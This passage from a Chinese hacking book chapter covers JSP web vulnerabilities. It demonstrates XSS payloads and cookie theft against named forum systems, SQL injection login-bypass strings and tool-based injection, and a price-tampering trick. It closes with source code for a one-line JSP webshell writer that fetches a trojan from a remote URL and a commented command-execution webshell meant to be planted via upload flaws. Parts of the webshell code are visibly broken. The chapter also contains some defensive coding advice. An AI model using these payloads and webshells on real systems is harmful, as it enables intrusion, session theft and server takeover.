<td style="color:#999900;">昵称:</td>
<td width="6"></td>
<td>
    <input name=name type=text class="inp_set1" id="name"
    onFocus="this.style.backgroundColor='#fffdf7'"
    onBlur="this.style.backgroundColor='#FFFFFF'" value="" size="30" maxlength="10">
</td>  // 昵称允许输入的最大长度为 10


```

可以看到主题允许输入的最大长度为 12 个字符，昵称允许输入的最大长度为 10 个字符。所以我们必须要改变它们的大小，把它们的长度都改成 1000，如图 13-11 所示。因为改变大小，所以我们要把网页保存到本地，并且要把表单 form 中的 action 地址改成绝对路径，这里我用的是该留言版的官方网站，为 `http://www.jspmo.com/book/index.jsp`。所以这里的 action 属性就应该为 `http://www.jspmo.com/book/save.jsp`，如图 13-12 所示。
图 13-11 修改输入框的长度
图 13-12 把表单的处理文件改为绝对路径

修改完了之后，我们就可以在本地输入跨站代码了，如图 13-13 所示，点击提交就可以发生跨站攻击，如图 13-14 所示。我们还可以输入 `<script>alert(document.cookie)</script>` 进行窃取 cookie，如图 13-15 所示。
图 13-13 输入跨站代码
图 13-14 跨站攻击
图 13-15 窃取 cookie

当然，上面我只演示了“标题”和“昵称”这两个变量，其他的变量也可以试验，虽然它们进行了限制，但都是用 JavaScript 限制的，所以我们可以绕过。常用的方法就是抓包修改之后用 NC 提交数据。

上面演示的是数据没有过滤就插入到数据库中而发生了跨站漏洞。同样，更新数据库操作也会发生跨站漏洞，不过前提是它们没有对参数进行有效的过滤。这点大家在前面都明白了。不过在 JSP 里还有其他一些原因会引起跨站漏洞，其中异常处理也能够发生跨站漏洞。我们都知道异常处理是一种安全机制，但是这种安全机制如果程序员编写程序的时候考虑不全面的话，仍然会发生安全问题。我在分析鲤鱼论坛的时候就发现了这个漏洞。

鲤鱼论坛是一个非常不错的系统，用到了目前比较先进的 Java 技术，如内置 C3P0、proxool、dbcp 数据库连接池；内置对 JDBC 进行初步封装组件；中间层应用 OSCache 进行数据对象缓存，支持 EHCACHE 等等。它不像前面的留言版系统，我们可以看到全部的 JSP 代码。鲤鱼论坛采用标准的 Java 软件开发流程，很多代码都被编译成了 class 文件，并用混淆器混淆了，所以我们无法得到全部的代码。就这一点就可以防止源代码被全部分析掉了，不过仍然有一些代码我们可以看到，而在这部分代码中就有因为异常处理不当引起的跨站漏洞。下面我们就来分析一下这个鲤鱼论坛中的异常处理跨站漏洞。

#### （1）自定义头像跨站

在个人修改资料的页面中提供了一个自定义头像的功能，我们可以在自定义头像的输入框输入头像地址。这个漏洞出现的原因是 JSP 中的异常处理不当而引起的，其处理代码是：

```jsp
<B>关于自定义头像</B>:
<BR>
你也可以在这里给出你自定义头像的URL地址，头像的高度和宽度(像素)。如果不想要自定义头像，请将相应栏目全部留空！</font></td>
<td width="60%"><font color="<%=tableContentColor%>">
<%  int startP=(picURL+"Image").length();   // 设置头像的长度
    int oldFaceNum=0;
    try{
        oldFaceNum = Integer.parseInt(theUser.getFace().substring(startP,startP+2));
        // 取得输入的自定义头像的数据，并定义了长度
    }
    catch(Exception e){   // 异常处理
        try{
            oldFaceNum = Integer.parseInt(theUser.getFace().substring(startP,startP+1));
        }
        catch(Exception e1){
            oldFaceNum=1;
        }
    }
%>
.................................省略代码
</select>&nbsp;&nbsp;&nbsp;预览:
" width=<%=theUser.getWidth()%>
height=<%=theUser.getHeight()%>>


```

从上面取得自定义头像的异常处理代码中可以看到，它只是判断是否输入了自定义头像，而没有去检查输入的数据是否合法，只要存在数据即可不触发异常条件。所以这里虽然有一个异常处理代码，但是对跨站却没有什么影响。我们在自定义头像的输入框中输入最常见的 IMG 跨站代码 `javascript:alert("自定义头像跨站")` 后并没有产生跨站效果。事后我查看返回的客户端代码，发现是这样的代码：``。可以发现是被双引号给闭合了，所以要实现跨站就要把双引号去掉。可以输入 `#" onerror=alert('自定义头像跨站') "` 来避开双引号的封锁。那么就实现了跨站，如图 13-16 和图 13-17 所示。
图 13-16 输入自定义头像跨站代码
图 13-17 自定义头像跨站

#### （2）投票跨站

在注册会员后不仅可以发表帖子，该系统还可以发表投票，如图 13-18 所示。在投票处却出现了跨站，可能是程序员认为这个没什么危害吧。不过对我们来说只要没有把数据过滤干净，那么就有可能。具体的代码有：

```java
stats="发表投票";
out.println(headLine(forumID,forumName,forumLogo,theForum.getForumType(),2,stats));
// 在得到客户端的数据后，就直接显示出来，并显示已投票。数据没有过滤。
if (foundErr){
    throw new Exception(errMSG);
}else{
    ............................省略代码
    <td width="86%"><font color="<%=tableContentColor%>">
    <input name="e" subject" size=60 maxlength=80 class=FormClass>&nbsp;&nbsp;<font color="red"><strong>*</strong></font> 不得超过 50 个汉字
    <INPUT TYPE="hidden" name="forumType" value="<%=response.encodeURL(theForum.getForumType())%>">
    <INPUT TYPE="hidden" name="skin" value="">
    <tr bgcolor="<%=tableBodyColor%>">
    <td width="14%"><font color="<%=tableContentColor%>"><b>投票项目</b><br>
    <li>每行一个投票项目，最多 10 个</li>
    <li>超过自动作废，空行自动过滤</li><br>
```

```html
<input type="radio" name="voteType" value="0" checked>
单选投票<br>
<input type="radio" name="voteType" value="1">
多选投票</font></td>
<td width="86%"><textarea name="vote" cols="65" rows="8"></textarea>


```

我们可以先发表一个这样的投票选题，输入的内容都是跨站代码，如图 13-19 所示。在我们发表一个投票选题后，系统就直接把投票的选题显示出来。如果打开这个页面就表示已经投票了。通过上面的处理代码，就可以发现它是直接通过 out.println 处理，同样也是只要输入了数据就不触发异常，而没有考虑其是否含有攻击代码。所以这里我们只要输入跨站代码 `<script>alert("投票跨站")</script>` 或者 `</img>` 就可以实现跨站了，如图 13-20 所示。
图 13-18 投票
图 13-19 跨站代码
图 13-20 投票跨站

#### （3）快速回复跨站

注册用户可以对文章进行一些回复，这是论坛最基本的功能。这里有两种回复功能，其中一种是快速回复，但却没有处理好参数，出现了跨站。代码是：

```java
String errMsg="";
try{
    com.bcxy.bbs.forum.Forum theForum=ForumFactory.getForum(forumID);
```

```html
String url=theForum.addMSG(request,response);
stats=theForum.getForumType()+"回复成功!";
out.println(headLine(forumID,forumName,forumLogo,theForum.getForumType(),2,stats));
// 没有过滤就显示出来了，漏洞出现。
........... .........................省略代码
<TD noWrap width=175>你的用户名:</TD>
<TD><INPUT maxLength=25 size=15 value="<%=userName%>" name="userName">
<A href=reg.jsp>还没注册?</A> 密码:
<INPUT type=password maxLength=13 size=15 value="<%=userPassword%>" name="userPassword">
<A href=lostpass.jsp>忘记密码?</A>
........... ..................................省略代码
<INPUT type=checkbox value=0 name=emailFlag>
邮件回复 <INPUT type=checkbox CHECKED value=1 name=signFlag>
显示签名</TD><TD width="100%">
<input type=Submit value=OK!发表我的回帖帖子 name=Submit>
&nbsp;<input type=reset name=Clear value=清空内容!>
[<font color=&alertFontColor&>Ctrl+Enter 直接提交帖子</font>]


```

通过上面的代码我们可以知道回复帖子的框架，如图 13-21 所示。上面的代码在得到客户端的数据后，只是写了一个判断是否输入数据的异常处理代码，而没有管数据是否合法。所以我们只要在文本框中输入代码 `<script>alert("快速回复跨站")</script>` 就可以实现跨站了。如图 7 所示。
图 13-21 回复功能
图 13-22 跨站漏洞

接着我们来看看 JSP 系统中功能非常强大的阿菜论坛（beta-1），它是仿造动网的。当我们提交 `http://www.xxxxx.com/acjspbbs/dispuser.jsp?name=zengyunhao;<script>alert(document.cookie)</script>` 后，就能够弹出包含自己 cookie 信息的对话框，其中 zengyunhao 是我在论坛里的用户名。……而提交 `http://www.xxxx.com/acjspbbs/dispuser.jsp?name=zengyunhao;<script>document.location="http://www.google.com"</script>` 也能够重定向到 Google 上去。

不过后来我又测试了一个鲤鱼论坛，发现它也存在这个漏洞。鲤鱼论坛查看会员的文件是 `dispuser.jsp`，我的会员名为 zengyunhao，论坛的官方网站是 `http://www.liyunet.com/`，那么我就在我的用户名后加上 `";<script>alert("鲤鱼论坛的URL跨站")</script>"`，如图 13-23 所示。点击“转到”按钮之后就发生了跨站，如图 13-24 所示。
图 13-23 在 name 属性后输入跨站代码
图 13-24 跨站漏洞

由于在返回“name”变量的值给客户端时，脚本没有进行任何编码或过滤恶意代码，当用户访问嵌入恶意“name”变量数据链接时，会导致脚本代码在用户浏览器上执行，可能导致用户隐私泄露等后果。

对所有动态页面的输入和输出都应进行编码，可以在很大程度上避免跨站脚本的攻击。遗憾的是，对所有不可信数据编码是资源密集型的工作，会对 Web 服务器产生性能方面的影响。常用的手段还是进行输入数据的过滤，比如下面的代码就把危险字符进行替换：

```java
<% String message = request.getParameter("message");
message = message.replace('<','_');
message = message.replace('>','_');
message = message.replace('"','_');
message = message.replace('\\','_');
message = message.replace('%','_');
message = message.replace(';','_');
message = message.replace('(','_');
message = message.replace(')','_');
message = message.replace('&','_');
message = message.replace('+','_'); %>

public boolean isValidInput(String str)
{
    if(str.matches("[a-z0-9]+")) return true;
    else return false;
}
```

上面的方法防御上比较被动，我们可以采用主动防御的方式，利用正则表达式只允许输入指定的字符。

采用了主动防御的方式，我们就能够更加好、更加全面地防止漏洞的发生了。对于 JSP 系统的跨站漏洞分析就到这里了，关键是大家要灵活运用，挖掘出更多更先进的技术出来。想做一名优秀的黑客，没有创新能力是不可能实现的。

### 13.3 注入漏洞代码分析

只要在进行数据库操作的时候，没有对输入的参数进行过滤，就会发生注入漏洞，这个思想在 JSP 中也是一样的。注入漏洞在 Web 系统中属于非常严重的漏洞，没有过滤参数就查询数据库是一个非常差的编程思想，特别是很多经验还不够的程序员更是如此。这有一个很重要的原因就要归结于书本：目前很多 Web 语言的教材，包括 JSP 在内，里面的程序都是没有一点安全性的，导致结果就是用了这些教材的人写出来的程序都是漏洞百出。

记得当初在学 JSP 的时候，用的是著名的《JSP 编程思想与实践》，这本书非常不错，如果大家要学习 JSP 的话，最好也用这本。不过这本书中的例子同样存在很多问题，例如该书中示范给读者编写带数据库的登录系统（数据库为 MySQL），代码如下所示：

```java
Statement stmt = conn.createStatement();
String checkUser = "select * from login where username = '" + userName + "' and userpassword = '" + userPassword + "'";  // userName 和 userPassword 都没有过滤
ResultSet rs = stmt.executeQuery(checkUser);  // 执行查询数据库操作
if(rs.next())
    response.sendRedirect("SuccessLogin.jsp");
else
    response.sendRedirect("FailureLogin.jsp");
```

上面就是《JSP 编程思想与实践》中出现的后台登录代码，userName 和 userPassword 都没有过滤，都是在没有过滤的情况下就放到数据库中去执行查询操作了。如果数据库里存在一个名叫“hack”的用户，那么在不知道密码的情况下，至少有下面几种方法可以登录：

- 用户名：hack  
  密码：`' or 'a'='a`

- 用户名：hack  
  密码：`' or 1=1/*`

- 用户名：`hack' or 1=1/*`  
  密码：（任意）

还有的系统在验证管理员的时候也出现问题，也是逻辑上不清楚造成的。我在分析溢洋论坛 v1.12 的时候就发现了这个问题，user_manager.jsp 文件的作用是用户管理。

这个文件中验证用户的代码如下所示：

```jsp
<%
if ((session.getValue("UserName")==null)||(session.getValue("UserClass")==null)
||(!session.getValue("UserClass").equals("系统管理员")))
{
    response.sendRedirect("err.jsp?id=14");
    return;
}
%>
```

其中，`session.getValue` 表示检索出 Session 的值，`sendRedirect()` 执行之后就相当于重定向，地址栏链接会改变，相当于客户端重新发送一个请求，要服务器传送 `err.jsp?id=14` 过来。我们只需要保证 `UserName` 或 `UserClass` 不为空就可以进入管理员了。

下面再来分析一些 JSP 系统中常见注入漏洞代码。在我分析“极度学习整站程序 JSP 版 v0.1.10”的时候，发现这个系统存在了 JSP 中最为经典的注入漏洞，就用它来作为例子分析。在 URL 中最为常见的 JSP 注入代码如下所示：

```java
String ID = new String(request.getParameter("ID").getBytes("iso8859_1"));
// 获得输入的 ID 参数，getBytes()函数用于获得字节数
Statement stmtArticle=conn.createStatement(ResultSet.TYPE_SCROLL_SENSITIVE,ResultSet.CONCUR_UPDATABLE);
String sqlArticle = "Select * from tArticle where fArticleID=" + ID;
// ID 参数没有过滤就直接放入到查询操作中去了
ResultSet RsArticle = stmtArticle.executeQuery(sqlArticle); // 执行查询操作


```

显然，上面的参数 `ID` 在用 `request` 的 `getParameter()` 方法获得后，并没有进行任何的过滤及安全防护措施，就把 `ID` 放入到了数据库查询操作中。所以出现了典型的注入漏洞，而且这个参数 `ID` 是在 URL 地址栏中，所以非常适合我们进行注入攻击。如图 13-25 和 13-26 就可以判断其存在注入漏洞，并且可以从图 13-26 中得出该系统的后台用的 ODBC 接口的数据库。
图 13-25 添加 and 1=1 后返回正确
图 13-26 添加 and 1=2 后返回错误，从中可以得到后台为 ODBC 接口数据库

我们可以得到这个系统采用的 ODBC 接口数据库。我们知道后台数据库直接影响着注入攻击的方式，在 URL 后直接加上单引号就可以得到后台数据库的类型，如图 13-27 所示。可以发现后台采用的 ACCESS 数据库，当然用 and user>0 的结果也是一样。
图 13-27 后台为 ACCESS 数据库

对于注入工具而言，影响其注入的也是后台数据库。至于是哪种脚本语言，对其影响并不是特别大。所以前面的那个系统我们可以用 SQL 注入工具进行注入攻击了，可以很快猜解出管理员的密码，如图 13-28 所示。
图 13-28 工具注入

从上面大家就应该明白，虽然是 JSP 系统，但是对于我们注入攻击来说，影响最大的后台数据库类型。所以如果后台数据库是 ACCESS 或 SQL Server，那么我们就可以用啊 D、明小子等工具。如果是 MySQL 数据库，则就可以用 NBSI2、HDSI、CASI 就可以了。不过 JSP 系统更多采用的后台数据库是 Oracle，所以这里我提供了一个 Oracle 数据库的注入工具，如图 13-29 所示。如果后台数据库是 Oracle，则用这个工具就可以得到 Oracle 后台数据库的密码等信息。
图 13-29 Oracle 数据库注入工具

对于注入漏洞代码的分析，前面几章已经讲了很多，比如数字型注入、字符型注入。这些都在 JSP 系统中可用，因为在 JSP 系统中获取客户端的数据主要是使用 `request` 的 `getParameter` 方法，所以我们可以搜索关键字 `request`、`getParameter` 来找到 JSP 中获取客户端数据的代码。在得到这些代码后，就跟踪获取的参数，如果参数没有过滤或过滤不完全的话，就会发生注入漏洞了，如图 13-30 所示。
图 13-30 利用关键字 getParameter 搜索注入漏洞

上面说的情况是我们可以见到 JSP 系统代码的情况下，如果有 JSP 代码那么分析代码漏洞就比较简单了。不过目前大部分 JSP 系统是见不到代码，基本上都是被编译成了 Servlet，用混淆器混淆之后我们是根本无法得到其源代码了。所以对于这样的系统，我们得到它的目录结构，要入侵这样的系统只有以黑箱测试为主，一步步推进，监测每一个变量的去处，以发现它的漏洞。要这样入侵肯定要花费比较多的时间，而且成功与否还和你渗透网站的经验有一定的关系，在下一章会给大家演示如何入侵 JSP 的网站。

### 13.4 其他安全问题

JSP 不仅仅存在于上面的几个安全漏洞，还有很多的安全问题。不过都很难形成一个体系，所以本节就来详细讨论一下其他的安全问题。

#### 3、String 对象带来的隐患

学过 C 语言的朋友都知道，为对地址空间的数据进行操作，引入了指针。但是，指针存在很多的安全问题，如引发了溢出漏洞。所以在 Java 语言中就去掉了指针，这样 Java 平台的确使安全编程更加方便了。

因为 Java 中没有指针了，这就是说 Java 语言程序不再像 C 语言那样直接利用指针对地址空间中的任意内存位置进行寻址操作了。在 JSP 文件被编译成 `.class` 文件时，编译器会自动检查安全性问题，比如当我们访问超出数组大小的时候，那么我们的请求将被拒绝，这在很大程度上避免了缓冲区溢出攻击的发生。

但是，String 对象却会给我们带来一些安全上的隐患。如果密码是存储在 Java String 对象中的，则直到对 Java 的垃圾回收器对其进行垃圾收集或进程终止之前，密码会一直驻留在内存中。即使系统进行了垃圾收集，它仍会存在于空闲内存堆中，直到重新使用该内存空间为止。密码 String 在内存中驻留得越久，遭到被窃听的危险性就越大。

更糟的是，如果实际内存减少，则操作系统会将这个密码 String 换页调度到磁盘的交换空间，因此容易遭受磁盘块窃听攻击。为了将这种泄密的可能性降至最低（但不是消除），您应该将密码存储在 char 数组中，并在使用后对其置零（String 是不可变的，无法对其置零）。

#### 4、JavaBean 安全简介

在上一章中，已经为大家介绍了 JavaBean 的基础知识了，相信大家已经有一定的了解。JSP 组件的核心技术就是被称为 bean 的 Java 组件，即 JavaBean。在程序中可把逻辑控制、数据库操作放在 JavaBeans 组件中，然后在 JSP 文件中调用它，这样可增加程序的清晰度及程序的可重用性。和传统的 ASP 或 PHP 页面相比，JSP 页面是非常简洁的，因为许多动态页面处理过程可以封装到 JavaBean 中，而且安全性上也得到了很大的提高。

我们知道在 JavaBean 中要改变 JavaBean 的属性，就必须要用到 `<jsp:setProperty>` 标记。我们来看看下面的这一小段代码，是电子商务系统中 `checkout.jsp` 文件的代码，它的作用是用来结账的，代码如下所示：

```html
<jsp:useBean id="myBasket" class="BasketBean">  // 使用 JavaBean
<jsp:setProperty name="myBasket" property="*" />  // 设置属性
</jsp:useBean>
<html>
<head><title>shop</title></head>
<body>
```

```jsp
<p>
You have added the item
<jsp:getProperty name="myBasket" property="newItem" />
to your basket.
<br/>
Your total is $
<jsp:getProperty name="myBasket" property="balance" />
Proceed to <a href="checkout.jsp">checkout</a>
```

注意看 `<jsp:setProperty name="myBasket" property="*" />` 中的 `property="*"`，这个就是表明用户在可见的 JSP 页面中输入的，或是直接通过 Query String 提交的全部变量的值，将存储到匹配的 bean 属性中。正常情况下，我们是这样提交请求的：`http://www.xxxx.com/addToBasket.jsp?newItem=123213`。但是我们是没有那么守规矩的，我们可以提交：`http://www.xxxx.com/addToBasket.jsp?newItem=123213&balance=0`。这样，`balance=0` 的信息就被存储到了 JavaBean 中了。当他们这时点击“checkout”结账的时候，费用就全免了。这和 PHP 中的全局变量导致的安全问题是一样的，所以在用 JavaBean 的时候一定要慎用 `property="*"`，这样就可以避免因变量作用域而导致的安全问题。

#### 5、线程安全初探

JSP 在默认的情况下是以多线程方式执行的，和 Java 是一样的。以多线程方式执行可大大降低对系统的资源需求，提高系统的并发量及响应时间。线程在程序中是独立的、并发的执行路径，每个线程在操作系统执行的过程中都有它自己的堆栈、自己的程序计数器和自己的局部变量。虽然多线程应用程序中的大多数操作都可以并行进行，但也有某些操作（如更新全局标志或处理共享文件）不能并行进行。如果没做好线程的同步，在大并发量访问时，或者是有人恶意访问的时候问题就出现了。最简单的解决方案就是在相关的 JSP 文件中加上：`<%@ page isThreadSafe="false" %>` 指令，使它以单线程方式执行，这时，所有客户端的请求以串行方式执行。

这样会严重降低系统的性能，如果用单线程是划不来的。不过我们可以仍让 JSP 文件以多线程方式执行，通过用函数上锁来对线程进行同步。一个函数加上 `synchronized` 关键字就获得了一个锁。看下面的示例：

```java
public class MyClass{
    int a;
    public Init() { // 此方法可以多个线程同时调用
        a = 0;
    }

    public synchronized void Set() { // 两个线程不能同时调用此方法
        if(a > 5) {
            a = a - 5;
        }
    }
}
```

但是这样仍然会对系统的性能有一定影响。一个更好的方案是采用局部变量代替实例变量。因为实例变量是在堆中分配的，被属于该实例的所有线程共享，不是线程安全的；而局部变量在堆栈中分配，因为每个线程都有它自己的堆栈空间，所以这样线程就是安全的了。比如凌云论坛中添加好友的代码如下所示：

```java
public void addFriend(int i, String s, String sl)  // 添加好友
throws DBConnectException
{
    try
    {
        if……
        else
        {
            DBConnect dbconnect = new DBConnect("insert into friend (authorid,friendname) values (?,?)");
            dbconnect.setInt(1, i);
            dbconnect.setString(2, s);
            dbconnect.executeUpdate();
            dbconnect.close();
            dbconnect = null;
        }
    }
    catch(Exception exception)
    {
        throw new DBConnectException(exception.getMessage());
    }
}
```

下面是调用：

```java
friendName=ParameterUtils.getString(request,"friendname");
if(action.equals("adduser")) {
    forumFriend.addFriend(Integer.parseInt(cookieID),friendName,cookieName);
    errorInfo=forumFriend.getErrorInfo();
}
```

如果采用的是实例变量，那么该实例变量属于该实例的所有线程共享，就有可能出现用户 A 传递了某个参数后他的线程转为睡眠状态，而参数被用户 B 无意间修改，造成好友错配的现象。

所以大家在分析 JSP 程序的时候也要注意看这些线程的问题，有的时候造成的危害也是比较严重的。

#### 6、上传文件安全问题

在 ASP 和 PHP 中都为大家介绍了上传漏洞。同样，在 JSP 中如果对上传文件的后缀处理不当的话，也会发生上传漏洞。对于如何寻找上传代码的漏洞，JSP 中和 ASP 及 PHP 是一样的，比如看是否可以上传 jsp、pl、asp、cer 等后缀，还有就是看上传时处理的变量是否过滤了，如果没有过滤还可以修改变量，欺骗计算机，使得我们上传 JSP 木马。

这里还是提一下，在 JSP 中如何防御上传文件时的漏洞。前面给大家介绍了主动防御的思想，在 JSP 系统中也同样适用，这个方面鲤鱼论坛做得比较好，代码如下所示：

```javascript
function upload()   // 上传文件处理函数
{
    var filename = document.mainform.file.value;
    filename = filename.toLowerCase();
    var accept = false;
    accept |= (filename.indexOf('.zip')>-1);   // 判断后缀名，进行匹配
    accept |= (filename.indexOf('.rar')>-1);
    accept |= (filename.indexOf('.doc')>-1);
    accept |= (filename.indexOf('.txt')>-1);
    if(!accept)
    {
        alert("请选择允许上传文件：.zip,.rar,.doc,.txt!");
        document.mainform.file.focus();
        return false;
    }
    return true;
}
</SCRIPT>
<%
String StrLoad = request.getParameter("upload");  // 获取上传的数据
String TempName = "", errMsg = "", strFileName = "";
String allowFileList = "zip,rar,doc,txt";  // 允许上传的后缀
int fileSize = 0;
try{
    if((StrLoad!=null)&&(StrLoad.equals("up"))){
        mySmartUpload.initialize(pageContext);
        mySmartUpload.setTotalMaxFileSize(2000000);
        mySmartUpload.setMaxFileSize(2000000);  // 设置上传文件的最大值
        mySmartUpload.setAllowedFilesList(allowFileList);
        mySmartUpload.upload();    // 调用上传处理函数


```

可以看到上面的代码中，它只允许上传 zip、rar、doc、txt 这四种后缀名，而其他的所有后缀名都被拒绝上传了。这样主动性地只允许上传特定文件类型，使得我们根本就没办法突破这个防线上传其他的文件。比如我上传一个 JSP 木马，就弹出一个对话框，如图 13-31 所示，里面显示着“请选择允许上传文件：.zip,.rar,.doc,.txt!”。
图 13-31 允许上传的类型

#### 7、JSP 安全编程技术

在 JSP 系统的开发过程中，已经为我们提供了各种安全编程技术。利用它们可以很大程度上提高系统的安全性，下面就简单为大家介绍 JSP 中的各种安全编程技术。

- 1. Declarative Security

Declarative Security 指的是表达一个应用的安全结构，包括角色、存取控制，和在一个应用的外部表单所要求的验证。在 WEB Application 中发布描述器是实施 Declarative Security 的一种主要工具。发布者把 Application 所要求的逻辑完整性映射为在特定运行环境下的安全策略。在运行时，Servlet Container 使用这些策略来强迫验证。

- 2. Programmatic Security

当 Declarative Security 不能够完全表达一个 Application 的安全模型时，就可以使用 Programmatic Security。Programmatic Security 包括 HttpServletRequest 接口的下列方法：`getRemoteUser` 方法返回经过客户端验证的用户名；`isUserInRole` 向 Container 的安全机制询问一个特定的用户是否在一个给定的安全角色中；`getUserPrincipal` 方法返回一个 `java.security.Principal` 对象。这些 APIs 根据远程用户的逻辑角色让 Servlet 去完成一些逻辑判断。它也可以让 Servlet 去决定当前用户的主要名字。如果 `getRemoteUser` 返回 `NULL` 值（这意味着没有用户被验证），那么 `isUserInRole` 就总会返回 `False`，`getUserPrincipal` 总会返回 `NULL`。

- 3. Roles

一个 Role 就是由 Application Developer 和 Assembler 所定义的一个抽象的逻辑用户组。当一个 Application 被发布的时候，Deployer 就把这些角色映射到在运行环境中的安全认证，例如组或规则。一个 Servlet Container 能够为规则执行一些声明式或编程式安全，这些规则是与调用这些 Principal 的安全属性所输入的要求相关的。例如：当 Deployer 把一个安全角色映射为操作环境下的一个用户组，调用 Principal 所属的用户组就从安全属性中获得。如果 Principal 的用户组与在操作环境下的用户组相匹配，那么 Principal 就是一个安全角色；当 Deployer 把一个安全角色映射为一个在安全方针域中的 Principal 名时，调用 Principal 的 Principal 名就被从安全属性中提取出来。如果两者相同的话，调用的 Principal 就是安全的。

- 4. Authentication

一个 WEB 客户端能够使用下面的一种机制来对 WEB 服务器验证一个用户：HTTP Digest Authentication；HTTPS Client Authentication；HTTP Basic Authentication；HTTP Based Authentication。

- 5. HTTP Basic Authentication

HTTP Basic Authentication 是一个定义在 HTTP/1.1 规范中的验证机制。这种机制是以用户名和密码为基础的。一个 WEB Server 要求一个 WEB Client 去验证一个用户。作为 Request 的一部分，WEB Server 传递 Realm 的字符串，用户就是在它里面被验证的。

小提示：Basic Authentication 机制的 Realm 字符串不一定反映任何一种安全方针域。WEB Client 得到这些用户名和密码，然后把它传递给 WEB Server。WEB Server 然后在一个特定的领域验证这些用户。由于密码是使用一种 64 位的编码来传递，而且目的 Server 没有验证，所以 Basic Authentication 不是一种安全的验证协议。

- 1. **（6）、HTTP Digest Authentication**  
  HTTP Digest Authentication 根据用户名和密码验证一个用户，然而密码的传输是通过一种加密的形式进行的，这就比 Basic Authentication 所使用的 64 位编码形式传递要安全得多。由于 Digest Authentication 当前不被广泛使用，Servlet Containers 不要求支持它，但是鼓励去支持它。

- 2. **（7）、HTTPS Client Authentication**  
  使用 HTTPS（HTTP over SSL）的终端用户验证是一种严格的验证机制。这种机制要求用户去处理公共密钥证明（Public Key Certification，PKC）。当前，PKC 在 e-commerce 应用中是有用的。不适应 J2EE 的 servlet containers 不要求支持 HTTPS 协议。

- 3. **（8）、Server Tracking of Authentication Information**  
  就像映射在角色中的安全标识一样，运行环境是环境的说明而不是应用的说明。在 Web application 的发布环境创建一个登录机制和策略；对发布在同一个 Container 的 Application 能够使用同样的验证信息来代表这些 Application 的 Principal；仅仅当通过安全策略域时要求用户重新验证。因此，一个 Servlet Container 要求在 Container 层来跟踪这些验证信息，而不是在 Application 层。允许一个经验证的用户访问一个使用其它资源的 Application，这些资源是通过受同样安全性标识限制的 Container 管理的。

## 13.5 JSP木马编写技术

不管是注入还是上传，我们首先都是为了得到 webshell。要得到 webshell 当然是要用到 JSP 木马了，所以本节就来简单讨论一下 JSP 木马的编写技术。  
ASP 和 PHP 都有一句话木马服务端，虽然目前 JSP 中并没有一个普遍的一句话服务端，不过我们仍然可以自己写一个具有一句话木马服务端功能的代码，如下所示：

```jsp
<%
if(request.getParameter("f")!=null)(new java.io.FileOutputStream(application.getRealPath("\\")+request.getParameter("f"))).write(request.getParameter("t").getBytes());
%>
```

上面的服务端中的参数 f 如果不为空，那么就通过参数 f 获取我们客户端提交过来的数据。我们可以把这个服务端插入到网站的 JSP 文件中，然后提交一个木马进去。比如我们将这个服务端插入到 http://www.xxxx.com/xx.jsp 中，则我们要使用这个木马就应该输入 http://www.xxxx.com/xx.jsp?f=shell.jsp&t=木马的内容。其中，shell.jsp 就是我们生成的新文件，而木马的内容则就是我们要写入到 shell.jsp 文件中的内容，所以当我们打开 http://www.xxxx.com/shell.jsp 就是一个木马了。当然，参数 t 也是支持 URL 的，和文件包含漏洞是一样的。  
这里给大家介绍一下 f 和 t 这两个参数，其中参数 f 是用来在服务器中生成文件的文件名，而参数 t 是用于接收所提交的数据。  
对于这个一句话木马，我们可以这样利用。首先还是一样，将这个服务端插入到 JSP 网站中的 jsp 文件中，而且记住这个文件的文件名，这里假设我们插入了服务端的文件的 URL 地址是 http://www.xxx.com/article.jsp。插入服务端成功之后，接下来就是要将我们的大马传到 JSP 网站中去，从而得到 webshell。

这里我们提交 http://www.xxx.com/article.jsp?f=shell.jsp&t=http://www.xxx.com/shell.txt。其中 shell.jsp 就是我们在服务器中生成的文件，即 JSP 木马文件名。而参数 t 的值为 http://www.xxx.com/shell.txt，是我们 JSP 文件的代码，当然 t 参数的值也可以直接是 JSP 的代码，这里即支持通过 URL 提交木马代码，也支持直接提交 JSP 木马代码。和我们前面所讲的 PHP 中的文件包含漏洞比较类似。当成功提交之后，我们就可以得到一个 JSP 的 webshell 了。

在 ASP 中为大家介绍了 DIY.asp 小马，其实，在 JSP 中同样可以实现一个小木马。例如下面给大家编写一个具有 CMD 功能的小马，其代码如下所示：

```jsp
<%@ page contentType="text/html; charset=gb2312"%>
//这里表示的是文字的 gb2312 编码方式，添加了这行代码就能够显示中文，否则显示乱码
<%@page import="java.io.*" %>
//引入 JAVA 的 IO 包文件，因为后面要用到 StringBuffer 类的 I/O 操作，所以要包含这个包
<%
String cmdshell=request.getParameter("cmd");
//获得客户端中输入的 cmd 的参数值，并把它赋给 cmdshell
String order="";
//定义初始值为空的字符串 order，它是我们在输入框中输入的命令
StringBuffer buffer=new StringBuffer("");
//定义一个 StringBuffer 类，其作用是读取我们在输入框中输入的命令，并返回结果
if(cmdshell!=null)  //如果我们在输入框中输入了参数就执行下面的代码
{
    try     //在这里引入了异常处理机制，以防止发生意外导致系统崩溃
    {
        Process pro=Runtime.getRuntime().exec("cmd /"+cmdshell);
        //这里我们建立一个 Process 对象，并利用该对象的 Runtime 的 exec() 方法执行输入的命令，核心代码
        BufferedReader buf=new BufferedReader(new InputStreamReader(pro.getInputStream()));
        //建立一个 BufferedReader 对象，用来读取我们输入的命令
        while((order=buf.readLine())!=null)
        {
            buffer.append(order+"\r\n");   //获取到的命令追加到变量 order 的后面并换行
        }
    }
    catch(Exception e)
    {
        System.out.println(e.toString());  //如果发生异常了，就把异常情况打印出来
    }
}
}
else
{
    cmdshell="dir c:/"    //默认情况下输入的是 dir c:/
}
%>
<form name="cmd" action="" method="post">  //定义一个表单, 名称为 cmd, 方法为 post
&nbsp;  //空格
<input type="text" name="cmd" value="<%cmdshell%>" size=50>
//为一个输入框, 用于我们输入命令
<input type=submit name=submit value="执行命令">  //提交我们输入的命令
</form>
<%
if(buffer!=null&&buffer.toString().trim().equals("")==false)
{
    %>
&nbsp;  //空格
<textarea name="MyView" rows="20" cols="100"><%=buffer.toString()%></textarea>
//定义一个输入域, 用于显示我们执行命令后返回的结果
<br>
&nbsp;
<%
}
%>


```

上面的代码就能够完成与 ASP 中 diy.asp 小马同样的功能，我们把这个小马放入到网站中，如通过上传漏洞上传等等。打开之后我们就能够往输入框中输入命令了，命令执行完毕之后，结果就返回到输入域中。

